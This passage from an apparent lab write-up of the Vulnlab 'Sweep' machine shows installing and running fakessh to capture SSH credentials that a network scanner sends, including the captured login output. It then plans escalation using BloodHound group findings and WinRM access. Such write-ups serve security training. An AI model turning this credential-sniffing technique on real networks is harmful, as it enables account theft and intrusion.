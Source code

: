 ### SSH Credential Sniffing

First I tried to setup `ssh-mitm` but I had quite a few issues with it. So I switched to `fakessh` which worked for a few other people from our team.

- [https://github.com/fffaraz/fakessh](https://github.com/fffaraz/fakessh)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ go install github.com/fffaraz/fakessh@latest
go: downloading github.com/fffaraz/fakessh v0.0.1
go: downloading golang.org/x/crypto v0.18.0
```

According to the documentation the binary required the `cap_net_bind_service=+ep` capabilities.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ sudo setcap 'cap_net_bind_service=+ep' ~/go/bin/fakessh
[sudo] password for kali:
```

After setting it up we started a new scan for our `IP Range` and got surprised with the credentials for the user `svc_inventory_lnx`.

```c
┌──(kali㉿kali)-[~/go/bin]
└─$ ./fakessh 
2024/02/29 15:45:38.879438 10.10.118.121:54123
2024/02/29 15:45:41.884270 10.10.118.121:54133
2024/02/29 15:45:41.975583 10.10.118.121:54134
2024/02/29 15:45:42.081123 10.10.118.121:54134 SSH-2.0-RebexSSH_5.0.8372.0 svc_inventory_lnx [REDACTED]
```

| Username          | Password      |
| ----------------- | ------------- |
| svc_inventory_lnx |  [REDACTED]   |

### Enable Remote Access

We determined that `svc_inventory_lnx` was a `service account` by checking his details in `BloodHound` which meant that we had to enable `Remote Access` for it to login using `WinRM`.

We checked the groups the account was member of. It showed that the user `svc_inventory_lnx` was member of `LANSWEEPER DISCOVERY` which had `GenericAll` privileges on `LANSWEEPER ADMINS`.
